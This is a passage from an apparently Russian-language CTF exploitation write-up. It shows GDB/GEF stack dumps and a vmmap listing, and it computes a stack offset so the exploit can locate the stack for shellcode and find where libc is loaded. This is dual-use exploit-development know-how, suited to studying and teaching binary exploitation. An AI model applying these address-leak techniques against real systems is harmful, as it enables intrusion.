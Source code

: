 ```c
0x00007fffffffdd88│+0x0158: 0x00007fffffffe10b  →  "SHELL=/bin/bash"	 ← $r13
0x00007fffffffdd90│+0x0160: 0x00007fffffffe11b  →  "SESSION_MANAGER=local/ivanqs-macbook-pro:@/tmp/.IC[...]"
0x00007fffffffdd98│+0x0168: 0x00007fffffffe185  →  "QT_ACCESSIBILITY=1"
0x00007fffffffdda0│+0x0170: 0x00007fffffffe198  →  "COLORTERM=truecolor"
0x00007fffffffdda8│+0x0178: 0x00007fffffffe1ac  →  "XDG_CONFIG_DIRS=/etc/xdg/xdg-gnome:/etc/xdg"
0x00007fffffffddb0│+0x0180: 0x00007fffffffe1d8  →  "SSH_AGENT_LAUNCHER=openssh"
0x00007fffffffddb8│+0x0188: 0x00007fffffffe1f3  →  "XDG_MENU_PREFIX=gnome-"
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

На самой верхушке стека лежит явно адрес другого объекта на стеке (это мы понимаем исходя из того, что `0x00007fffff...` в Linux практически всегда соответствует стеку). При запуске программы несколько раз относительное расположение значений на стеке не должно изменяться, поэтому если сейчас в GDB мы можем посчитать, что

```c
gef➤  p/d 0x00007fffffffdd78 - (long long)$rsp
$1 = 328
```

то в своём эксплоите мы можем написать

```asm
pop a
sub a 328
```

и быть уверенными, что `a` указывает на самое начало стека нашей программы. Это явно нам пригодится в будущем, потому что положить шеллкод мы сможем только на стек, а чтобы его запустить, нужно знать, где этот стек вообще находится.

Чтобы понять, где вообще лежит libc, можно использовать `vmmap`:

```c
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000555555554000 0x0000555555555000 0x0000000000000000 r-- /tmp/a.out
0x0000555555555000 0x0000555555556000 0x0000000000001000 r-x /tmp/a.out
0x0000555555556000 0x0000555555557000 0x0000000000002000 r-- /tmp/a.out
0x0000555555557000 0x0000555555558000 0x0000000000002000 r-- /tmp/a.out
0x0000555555558000 0x0000555555559000 0x0000000000003000 rw- /tmp/a.out
0x0000555555559000 0x0000555555561000 0x0000000000000000 rw- [heap]
0x00007ffff7c00000 0x00007ffff7c22000 0x0000000000000000 r-- /home/ivanq/moonshot/libc.so.6
0x00007ffff7c22000 0x00007ffff7d9b000 0x0000000000022000 r-x /home/ivanq/moonshot/libc.so.6
0x00007ffff7d9b000 0x00007ffff7df2000 0x000000000019b000 r-- /home/ivanq/moonshot/libc.so.6
0x00007ffff7df2000 0x00007ffff7df6000 0x00000000001f1000 r-- /home/ivanq/moonshot/libc.so.6
0x00007ffff7df6000 0x00007ffff7df8000 0x00000000001f5000 rw- /home/ivanq/moonshot/libc.so.6
0x00007ffff7df8000 0x00007ffff7e05000 0x0000000000000000 rw- 
0x00007ffff7fbc000 0x00007ffff7fc1000 0x0000000000000000 rw- 
0x00007ffff7fc1000 0x00007ffff7fc5000 0x0000000000000000 r-- [vvar]
0x00007ffff7fc5000 0x00007ffff7fc7000 0x0000000000000000 r-x [vdso]
0x00007ffff7fc7000 0x00007ffff7fc8000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
0x00007ffff7fc8000 0x00007ffff7ff1000 0x0000000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
0x00007ffff7ff1000 0x00007ffff7ffb000 0x000000000002a000 r-- /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
0x00007ffff7ffb000 0x00007ffff7ffd000 0x0000000000034000 r-- /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000036000 rw- /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]
```
